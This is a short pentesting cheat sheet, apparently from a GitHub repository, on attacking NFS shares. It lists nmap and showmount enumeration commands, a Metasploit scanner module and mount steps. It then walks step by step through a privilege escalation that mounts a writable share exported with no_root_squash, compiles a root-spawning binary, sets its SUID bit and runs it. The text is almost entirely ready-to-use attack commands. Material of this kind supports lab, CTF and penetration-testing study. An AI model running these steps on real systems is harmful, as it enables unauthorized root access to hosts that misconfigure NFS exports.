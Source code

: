 ## Enumeration

    nmap --script nfs-ls,nfs-showmount,nfs-statfs <IP>
    showmount -e <IP>

##### Metasploit

    use auxiliary/scanner/nfs/nfsmount

### 1) Create a directory on the attacking machine

    sudo mkdir /mount/

### 2) Mount to the directory just created

    sudo mount -t nfs <IP>:<PATH> /mount/ -o nolock

    ls -la /mount/

### 3) Confirm mount

    mount <PATH>

# Example:

## 

    cat /etc/exports

# Critical element: "no_root_squash" on a writable share (SUID bit set file create) or fsid=0/fsid=root

### 1: 

    showmount -e IP

### 2: 

    sudo mkdir /tmp/backups

### 3: 

    mount -o rw IP:/writable_share /tmp/backups

### 4: Write a bash shell that spawns root (Rootshells directory in repo)

### 5: 

    gcc nfs.c -o nfs -w 

### 6: 

    chmod +s nfs

### 

    ./nfs
